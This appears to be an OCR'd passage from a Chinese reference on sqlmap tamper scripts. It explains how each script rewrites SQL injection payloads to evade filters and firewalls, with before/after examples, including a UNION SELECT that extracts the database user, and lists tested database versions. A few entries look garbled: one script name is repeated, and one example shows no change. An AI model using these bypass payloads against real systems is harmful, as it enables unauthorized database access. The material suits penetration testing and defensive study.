 ``` 
作用：绕过过滤双引号，替换字符和双引号。

示例：

"1 AND '1'='1"
'1 AND %00%271%00%27=%00%271'

在以下版本做过测试:

MySQL 4, 5.0 and 5.5
Oracle 10g
PostgreSQL 8.3, 8.4, 9.0

针对过滤关键字的：

1:halfversionedmorekeywords.py

作用：当数据库为mysql时绕过防火墙，每个关键字之前添加mysql版本评论

示例：

("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") "value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"

版本要求:

MySQL < 5.1
在以下版本做过测试:
MySQL 4.0.18, 5.0.22

2:ifnull2ifisnull.py

作用：绕过对IFNULL过滤。 替换类似’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’

示例：

'IFNULL(1, 2)'
'IF(ISNULL(1),2,1)'

版本要求:

MySQL
SQLite (possibly)
SAP MaxDB (possibly)
在以下版本做过测试:
MySQL 5.0 and 5.5

3:multiplespaces.py

作用：围绕SQL关键字添加多个空格

示例：

'1 UNION SELECT foobar'
'1 UNION SELECT foobar'

在以下版本做过测试:

All

4:halfversionedmorekeywords.py
```